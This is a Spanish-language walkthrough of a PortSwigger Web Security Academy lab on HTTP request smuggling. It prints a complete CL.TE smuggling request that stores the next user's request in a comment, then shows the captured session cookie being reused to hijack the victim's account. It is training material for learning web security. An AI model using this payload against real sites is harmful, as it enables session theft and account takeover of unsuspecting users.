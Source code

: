 Continuamos con el laboratorio anterior, donde logramos capturar una petición legítima del siguiente usuario mediante un ataque de HTTP request smuggling. En esta parte, analizamos el contenido del comentario almacenado para extraer la cookie de sesión de la víctima.

Una vez identificamos el valor de la ‘**cookie session**‘ en la petición capturada, la utilizamos para suplantar la identidad del usuario y acceder a su cuenta. Este paso demuestra cómo una simple desincronización entre servidores puede derivar en la total toma de control de una cuenta ajena.

Este ejercicio refuerza la gravedad de las vulnerabilidades de tipo request smuggling y cómo pueden comprometer directamente la privacidad e integridad de los usuarios.

Solucion
ahora ya una vez configurado todo el payload en vamos a cambiar el coment en el csrf hasta el ultimo de esta manera quedaria el payloda y en la seccion de comentarios deberias de ver algo asi
![Pasted_image_20250807221729.png](Imagenes/Pasted_image_20250807221729.png)
payload (POST / HTTP/1.1

Host: 0a3e0063039f125e80211c3d00870036.web-security-academy.net

Content-Type: application/x-www-form-urlencoded

Content-Length: 286

Transfer-Encoding: chunked



0



POST /post/comment HTTP/1.1

Content-Type: application/x-www-form-urlencoded

Cookie: session=tIa5AHKbdB1ecVxlgPyGDgocKZ9PSLFf

Content-Length: 950



csrf=MQz6eTcTy7X1z7RI83NowKPgY689AC5l&postId=1&name=testing&email=omar%40omar.com&website=https%3A%2F%2Fcallate.com&comment=prueba)

entonces copiamos la cookie de session
![Pasted_image_20250807221842.png](Imagenes/Pasted_image_20250807221842.png)
y modificamos la cookie de session en el login
![Pasted_image_20250807221953.png](Imagenes/Pasted_image_20250807221953.png)
R9UMrQYOdIskkgFNXMLfJOOIXa0w9S1w 
esperamos y ya esta
![Pasted_image_20250807225421.png](Imagenes/Pasted_image_20250807225421.png)
